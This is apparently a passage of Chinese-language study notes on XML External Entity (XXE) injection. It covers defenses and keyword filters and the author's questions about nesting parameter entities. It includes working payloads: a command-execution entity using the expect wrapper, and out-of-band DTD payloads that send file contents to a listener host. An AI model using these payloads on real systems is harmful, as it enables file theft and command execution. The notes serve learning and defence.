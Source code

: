 ```

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY cmd SYSTEM "except://id">
]>
<value>&cmd;</value>
```
<br>
## 内网信息探测
跟SSRF一样，利用http://来访问内容端口，来查看返回的banner信息，来对端口做一个简单的判断。

<br><br>
# XXE防护
 - 检查所使用的底层 XML 解析库，默认禁止外部实体的解析
 - 过滤用户提交的 XML 数据
   - `<!DOCTYPE`
   - `<!ENTITY`
   - `SYSTEM`



<br><br>
# 问题

## 参数实体问题
```xml
问题描述：
在使用DTD外部引用的时候必须需要3层嵌套，不知道原因

二层嵌套  %data;参数实体不会被解析。
<!ENTITY send SYSTEM 'http://localhost:8088/data.php?data=%data;'>

三层嵌套  %data;参数实体被正常解析。
<!ENTITY % c "<!ENTITY send SYSTEM 'http://localhost:8088/data.php?data=%data;'>">
```
跟404notfound文章的一样的问题，自我感觉是对XML和参数实体还不够熟悉
>不明白为什么无回显的情况下一定要三层实体嵌套才正确，二层嵌套就不对（evil.xml中直接写成`<!ENTITY % send SYSTEM 'http://localhost:88/?content=%file;'>`或是`<!ENTITY send SYSTEM 'http://localhost:88/?content=%file;'>`）


## 参数实体问题2
如果使用这种写法，那么send 前面的 `%` 必须用字符实体`&#x25;`来表示。
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file "123">
<!ENTITY % b SYSTEM "http://localhost:8088/xxe.dtd">
%b;
]>
<data>send;</data>

// evil.xml
<!ENTITY % a "<!ENTITY &#x25; send SYSTEM 'http://localhost:8088/data.php?data=%file;'>">
%a;
%send;
```
<br>
## XML问题
一些测试直接用浏览器打开XML文件中无效，但是用simplexml_load_string()函数去解析却有效
